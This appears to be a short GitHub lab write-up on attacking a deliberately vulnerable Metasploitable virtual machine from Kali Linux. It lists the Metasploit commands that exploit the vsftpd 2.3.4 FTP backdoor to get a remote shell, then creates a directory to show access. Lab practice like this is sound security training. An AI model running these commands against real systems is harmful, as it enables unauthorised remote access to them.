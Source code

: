 # lets-start-hacking
# **LET&#39;S START HACKING**

We are going to hack metasploitable using kali linux. Firstly we have to see the IP of metasploitable.

The IP is 192.168.29.75

![](https://github.com/devikaa002/lets-start-hacking/blob/main/Metasploitable.png)

So lets check the open ports of Metasploitable.

![](https://github.com/devikaa002/lets-start-hacking/blob/main/open.png)

We have got these much of open ports but we need port 21 ftp protocol. Now we used msfconsole and used the following commands.

use exploit/unix/ftp/vsftpd\_234\_backdoor

set RHOST 192.168.29.75

exploit

![](https://github.com/devikaa002/lets-start-hacking/blob/main/exploit.png)

After exploitation we are now connecting to the command line of metasploitable.

![](https://github.com/devikaa002/lets-start-hacking/blob/main/msf.png)

Now we are connected to the commandline of linux. Now we can run the commands. Here I created a new directory using mkdir.

![](https://github.com/devikaa002/lets-start-hacking/blob/main/new%20dir.png)

So this is the metasploitable commandline where the marked directory is the file created in Kali linux.
